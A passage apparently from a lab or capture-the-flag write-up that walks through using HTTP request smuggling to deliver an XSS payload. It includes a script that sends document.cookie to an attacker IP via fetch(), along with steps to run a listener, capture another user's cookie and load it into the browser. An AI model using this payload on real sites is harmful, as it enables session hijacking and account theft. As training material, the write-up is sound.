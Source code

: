 - Looking at the Response body, we can see our payload made it in

- Now craft the real payload to grab a cookie:

- Go through the process again (from point 4.)

- Use the payload (and URL encode it first):

```bash
"<script><script>fetch("http://10.50.111.248:8082//"+document.cookie)</script>

```

![image18](../resources/632f0a765fd94f7da6286df9ed947af9.png)

- Set up a python server on that port

- Send the payload (click send a couple times):

![image19](../resources/b3c09bdce39f4fbd9534dea83bd98f6e.png)
- Wait for a few minutes - "until someone accesses the site"
- We got someone else's cookie

- The reason this works and the XSS didn't:
  - XSS is primarily a client-side vulnerability that involves injecting malicious scripts into web pages
  - Sending an XSS payload with HTTP request smuggling can deliver and potentially **execute XSS payloads on the server side**,
which can then affect other clients accessing the server's responses

**<u>Continuing</u>**

- In Chrome, inspect the page and go to Storage - add the new cookie in:

